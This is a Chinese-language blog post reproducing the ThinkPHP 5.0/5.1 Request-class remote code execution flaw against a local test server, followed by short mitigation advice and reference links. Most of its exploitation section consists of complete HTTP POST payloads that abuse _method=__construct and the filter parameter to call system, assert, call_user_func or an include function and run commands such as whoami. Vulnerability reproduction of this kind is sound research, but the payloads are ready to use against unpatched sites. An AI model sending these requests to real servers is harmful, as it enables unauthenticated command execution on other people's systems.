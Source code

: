 ```yaml
---
title: ThinkPHP5 核心类 Request 远程代码漏洞分析
categories:
  - 漏洞复现
tags:
  - 漏洞
  - RCE
  - 漏洞复现
  - ThinkPHP 5
  - ThinkPHP
author: Chace
date: 2020-07-11 18:47:35
---
```




# 漏洞介绍

2019年1月11日，ThinkPHP团队发布了一个[补丁更新](https://blog.thinkphp.cn/910675)，修复了一处由于不安全的动态函数调用导致的远程代码执行漏洞。

ThinkPHP官方发布新版本5.0.24，在1月14日和15日又接连发布两个更新，这三次更新都修复了一个安全问题，该问题可能导致远程代码执行 ，这是ThinkPHP近期的第二个高危漏洞，两个漏洞均是无需登录即可远程触发，危害极大。

之前写过一篇文章《[ThinkPHP-5-代码执行漏洞复现-POC](https://chaceshadow.github.io/2020/06/09/ThinkPHP-5-%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0-POC/#method%E4%BB%BB%E6%84%8F%E8%B0%83%E7%94%A8%E6%96%B9%E6%B3%95%E5%AF%BC%E8%87%B4rce)》里面有提过一次，这篇文章主要对其不同版本下进行详细的复现。



# 影响版本

启明星辰ADLab安全研究员对ThinkPHP的多个版本进行源码分析和验证后，确认具体受影响的版本为ThinkPHP5.0-5.0.23完整版。

<!--more-->

# 漏洞复现

本地环境采用ThinkPHP 5.0.10和5.0.22完整版+PHP7.0.9+Apache2.4.39进行复现。安装环境后执行POC即可执行系统命令

## 版本 5.0.0-5.0.12
> Payload：

```http
POST /public/index.php?s=index/index/index HTTP/1.1
Host: 192.168.1.236
Content-Length: 48
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

s=whoami&_method=__construct&filter[]=system
```

POC执行结果如下图：   ![1](1.png)

   ![2](2.png)



## 版本 5.0.12-5.0.23

在5.0.12之后的版本中，在`thinkphp/library/think/App.php的module`方法中增加了设置filter过滤属性的代码

   ![3](3.png)

开启debug调试模式，打开配置文件`config.php`

   ![4](4.png)

修改为

   ![5](5.png)



  >Payload 1

  ```http
POST /public/index.php HTTP/1.1
Host: 192.168.1.236
Content-Length: 76
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: thinkphp_show_page_trace=0|0
Connection: close

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=whoami
  ```

POC执行结果如下图：   

   ![6](6.png)
   ![7](7.png)

  >Payload 2

  ```http
POST /public/index.php HTTP/1.1
Host: 192.168.1.236
Content-Length: 76
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: thinkphp_show_page_trace=0|0
Connection: close

_method=__construct&filter[]=think\__include_file&server[]=phpinfo&get[]=../runtime/log/202007/08.log&x=phpinfo();
  ```

POC执行结果如下图：   

   ![8](8.png)
   ![9](9.png)

  >Payload 3

  ```http
POST /public/index.php HTTP/1.1
Host: 192.168.1.236
Content-Length: 76
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: thinkphp_show_page_trace=0|0
Connection: close

_method=__construct&filter[]=assert&server[]=phpinfo&get[]=phpinfo()
  ```

POC执行结果如下图：   

   ![10](10.png)


  >Payload 4

  ```http
POST /public/index.php HTTP/1.1
Host: 192.168.1.236
Content-Length: 76
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: thinkphp_show_page_trace=0|0
Connection: close

_method=__construct&filter[]=call_user_func&server[]=phpinfo&get[]=phpinfo
  ```

POC执行结果如下图：   

   ![11](11.png)

## 版本 5.1.10（PHP7.3.4+Apache2.4.39）

5.1和5.2两个版本现在用的很少，并且针对于这两个版本有点鸡肋，需要index.php文件中跳过报错提示。 语句：error_reporting(0);

需设置 `error_reporting(0);`

>  Payload：

```http
POST /public/index.php HTTP/1.1
Host: 192.168.1.236
Content-Length: 76
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: thinkphp_show_page_trace=0|0
Connection: close

c=system&f=whoami&_method=filter
```

一开始执行结果如下图：

![12](12.png)

找到RuleGroup.php 新增一行代码error_reporting(0);跳过报错

![13](13.png)

然后查看结果

![14](14.png)

# 漏洞防御

1. 线上环境建议关闭debug模式

2. 升级到ThinkPHP 5.0.24

3. 手动增加过滤，在`thinkphp/library/think/Request.php`添加如下代码：

   ![12](12.png)
   
   

# 参考链接

[ThinkPHP5 远程代码执行漏洞分析](https://seaii-blog.com/index.php/2019/01/14/88.html)

[ThinkPHP 5.0.0~5.0.23 RCE 漏洞分析](https://xz.aliyun.com/t/3845#toc-0)

[ThinkPHP5 核心类 Request 远程代码漏洞分析](https://paper.seebug.org/787/)

[ThinkPHP 5.0.x、5.1.x、5.2.x 全版本远程命令执行漏洞](https://blog.csdn.net/csacs/article/details/86668057)